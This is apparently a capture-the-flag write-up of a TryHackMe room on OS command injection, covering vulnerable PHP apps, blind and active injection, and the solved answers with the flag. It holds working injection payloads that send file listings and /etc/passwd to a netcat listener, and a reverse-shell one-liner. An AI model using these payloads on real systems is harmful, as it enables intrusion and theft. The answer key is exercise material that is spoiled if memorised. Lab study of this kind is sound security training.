





# Injection

Walkthrough of OS Command Injection. Demonstrate OS Command Injection and explain how to prevent it on your servers

[Injection](https://tryhackme.com/room/injection)

## Topic's

* Command Injection Fundamentals
* Blind Command Injection
* Active Command Injection

## Introduction & Deploy


EvilCorp has exposed their employee database search and developmental shell app to the Internet and they contain a severe vulnerability; command injection!  In this box, you'll learn about the different methods to detect and take advantage of this poor coding practice.

Today, web applications can be written in an assortment of languages.  From Python to C#, there's a lot to pick from.  However, one of the most widely used server side programming language is PHP.  PHP has been around since 1994 and since then has made its way to being one of the most popular languages on the Internet.  Due to its popularity and compatibility with both Windows and Linux machines, the application in this room will be using PHP for its vulnerable code.

1. Deploy the machine!

`No answer needed`

## An Introduction To Command Injection

**What is OS Command Injection?**

Command Injection occurs when server-side code (like PHP) in a web application makes a system call on the hosting machine.  It is a web vulnerability that allows an attacker to take advantage of that made system call to execute operating system commands on the server. Sometimes this won't always end in something malicious, like a `whoami` or just reading of files. That isn't too bad.  But the thing about command injection is it opens up many options for the attacker. The worst thing they could do would be to spawn a reverse shell to become the user that the web server is running as. A simple `;nc -e /bin/bash` is all that's needed and they own your server.

Once the attacker has a foothold on the web server, they can start the usual enumeration of your systems and start looking for ways to pivot around.  Now that we know what command injection is, we'll start going into the different types and how to test for them.

1. Read the above and let's go!

`No answer needed`

## Blind Command Injection

**What is Blind Command Injection?**

Blind command injection occurs when the system call that's being made does not return the response of the call to the Document Object Model (or DOM).  The DOM is where the HTML is rendered.  This walkthrough isn't about web development so for the purposes of this room, you can consider the DOM the canvas of an HTML document.

Sometimes the user inputs a test command to try to see if the server is vulnerable to command injection, the command is executed by the server-side code on the server and the code doesn't output the response.  For example, let's look at the code for the Directory Search application that Evil Corp developed.  It's very poorly written and is vulnerable to blind command injection.  See if you can figure out why before continuing on.  I'll explain it below.

**Directory Search (index.php) Code Example**


In pseudocode, the above snippet is doing the following:

1. Checking if the parameter "username" is set
2. If it is, then the variable `$username` gets what was passed into the input field
3. The variable `$command` gets the system command `"awk -F: '{print $1}' /etc/passwd | grep $username";` where `$username` is what was entered in step 2.  This command is printing out the list of users from `/etc/passwd` and then selecting the one that was entered.  Note that this is not executing anything yet.
4. Variable `$returned_user` then gets the result/return value of the function `exec($command)`.

The rest of the code is fairly straightforward; set `$result` to a Bootstrap danger alert class if nothing was found in `/etc/passwd` and a success alert class if something was found.  Easy-peasy.

**Ways to Detect Blind Command Injection**

As I mentioned above, blind command injection occurs when the response of the HTTP request is not returned to the DOM.  You can see in the above code that the response is never returned anywhere on the page.  The only thing that gets returned is an alert that says whether a user was found on the system or not.  For the purposes of this room, I made the alert tell you what was going on, but sometimes it won't be that easy.  So here are a few ways to tell whether you have blind command injection or not.

**Ping!**

Yes, your friend ping can help you tell whether you have blind command injection or not.  Since the code is making a system call in some way, a ping will cause the page to continue loading until the command has completed.  So if you send a ping with 10 ICMP packets, the page should be loading for about 10 seconds.  If you send 20(!) packets, it should take about 20 seconds, and so on.

**Redirection of Output**

Ping is usually enough to tell you whether you have blind command injection, but if you want to test further, you can attempt to redirect the output of a command to a file, then, using the browser, navigate to the page where the file is stored.  We all know the > Bash operator redirects output to a file or process so you could try redirecting the output of id, whoami, netstat, ip addr or other useful command to see if you can see the results.

**Bypassing the Blind Injection with Netcat**

In the spirit of full disclosure, there is a way to bypass the blind injection with netcat.  You are able to pipe the output of a command to a nc listener.  You could do something like `root; ls -la | nc {VPN_IP} {PORT}` . This will send the output of `ls -la` to your netcat listener.

Thanks to [hackadvisermx](https://tryhackme.com/p/hackadvisermx) for showing me this!

To complete the questions below, navigate to http://MACHINE_IP.

1. Ping the box with 10 packets.  What is this command (without IP address)?

```
Usage
  ping [options] <destination>

Options:
  <destination>      dns name or ip address
  -a                 use audible ping
  -A                 use adaptive ping
  -B                 sticky source address
  -c <count>         stop after <count> replies
  -D                 print timestamps
  -d                 use SO_DEBUG socket option
  -f                 flood ping
  -h                 print help and exit
  -I <interface>     either interface name or address
  -i <interval>      seconds between sending each packet
  -L                 suppress loopback of multicast packets
  -l <preload>       send <preload> number of packages while waiting replies
  -m <mark>          tag the packets going out
  -M <pmtud opt>     define mtu discovery, can be one of <do|dont|want>
  -n                 no dns name resolution
  -O                 report outstanding replies
  -p <pattern>       contents of padding byte
  -q                 quiet output
  -Q <tclass>        use quality of service <tclass> bits
  -s <size>          use <size> as number of data bytes to be sent
  -S <size>          use <size> as SO_SNDBUF socket option value
  -t <ttl>           define time to live
  -U                 print user-to-user latency
  -v                 verbose output
  -V                 print version and exit
  -w <deadline>      reply wait <deadline> in seconds
  -W <timeout>       time to wait for response

IPv4 options:
  -4                 use IPv4
  -b                 allow pinging broadcast
  -R                 record route
  -T <timestamp>     define timestamp, can be one of <tsonly|tsandaddr|tsprespec>

IPv6 options:
  -6                 use IPv6
  -F <flowlabel>     define flow label, default is random
  -N <nodeinfo opt>  use icmp6 node info query, try <help> as argument

For more details see ping(8).
```

> -c <count>         stop after <count> replies

`; ping -c 10`

2. Redirect the box's Linux Kernel Version to a file on the web server.  What is the Linux Kernel Version?



```
; uname -r > output.txt
```

[http://10.10.237.21/output.txt](http://10.10.237.21/output.txt)

`4.15.0-101`

1. Enter "root" into the input and review the alert.  What type of alert do you get?


`Success`

4. Enter "www-data" into the input and review the alert.  What type of alert do you get?



`Success`

5. Enter your name into the input and review the alert.  What type of alert do you get?



`Error`

## Active Command Injection

**What is Active Command Injection?**

As mentioned in the previous task, blind command injection occurs when the system command made to the server does not return the response to the user in the HTML document.  Active command injection will return the response to the user.  It can be made visible through several HTML elements. 

EvilCorp has started development on a web based shell but has accidentally left it exposed to the Internet.  It's nowhere near finished but contains the same command injection vulnerability as before!  But this time, the response from the system call can be seen on the page!  They'll never learn!

Just like before, let's look at the sample code from evilshell.php and go over what it's doing and why it makes it active command injection.  See if you can figure it out.  I'll go over it below just as before.

**EvilShell (evilshell.php) Code Example**


In pseudocode, the above snippet is doing the following:

1. Checking if the parameter "commandString" is set
2. If it is, then the variable `$command_string` gets what was passed into the input field
3. The program then goes into a try block to execute the function `passthru($command_string)`.  You can read the docs on `passthru()` on [PHP's website](https://www.php.net/manual/en/function.passthru.php), but in general, it is executing what gets entered into the input then passing the output directly back to the browser.
4. If the try does not succeed, output the error to page. Generally this won't output anything because you can't output stderr but PHP doesn't let you have a try without a catch.

**Ways to Detect Active Command Injection**

We know that active command injection occurs when you can see the response from the system call.  In the above code, the function `passthru()` is actually what's doing all of the work here.  It's passing the response directly to the document so you can see the fruits of your labor right there.  Since we know that, we can go over some useful commands to try to enumerate the machine a bit further.  The function call here to `passthru()` may not always be what's happening behind the scenes, but I felt it was the easiest and least complicated way to demonstrate the vulnerability.  

**Commands to try**

**Linux**

* `whoami`
* `id`
* `ifconfig/ip addr`
* `uname -a`
* `ps -ef`

**Windows**

* `whoami`
* `ver`
* `ipconfig`
* `tasklist`
* `netstat -an`

To complete the questions below, navigate to http://MACHINE_IP/evilshell.php.

1. What strange text file is in the website root directory?

```
nc -lvnp 9001

listening on [any] 9001 ...
connect to [10.8.106.222] from (UNKNOWN) [10.10.237.21] 40344
total 32
drwxr-x--- 4 www-data www-data 4096 Sep 29 12:16 .
drwxr-xr-x 3 root     root     4096 May 18 15:21 ..
drwxr-x--- 2 www-data www-data 4096 May 21 03:04 css
-rw-r----- 1 www-data www-data   17 May 22 13:14 drpepper.txt
-rw-r----- 1 www-data www-data 1723 May 26 01:52 evilshell.php
-rw-r----- 1 www-data www-data 2200 May 21 03:04 index.php
drwxr-x--- 2 www-data www-data 4096 May 21 03:04 js
-rw-r--r-- 1 www-data www-data   19 Sep 29 12:17 output.txt
```

```
root; ls -la | nc 10.8.106.222 9001
```

`drpepper.txt`

2. How many non-root/non-service/non-daemon users are there?

```
root; cat /etc/passwd | nc 10.8.106.222 9001
```

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
```

`0`

3. What user is this app running as?

`root; whoami | nc 10.8.106.222 9001`

`www-data`

4. What is the user's shell set as?

`/usr/sbin/nologin`

5. What version of Ubuntu is running?



`lsb_release -a`

`18.04.4`

6. Print out the MOTD.  What favorite beverage is shown?



`cat /etc/update-motd.d/00-header`

`DR PEPPER`

## Get The Flag!

Good work getting this far!  You've completed the walkthrough, learned about command injection; what it is and how to test for it, and now it's time to prove what you've got!  Exploit the vulnerability and get the flag!  For this, you can exploit either page.  Both are vulnerable.

1. Get the flag!

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.106.222 9001 >/tmp/f

python -c 'import pty;pty.spawn("/bin/bash")'

stty raw -echo

find / 2>/dev/null | grep flag.txt
```

`65fa0513383ee486f89450160f3aa4c4`
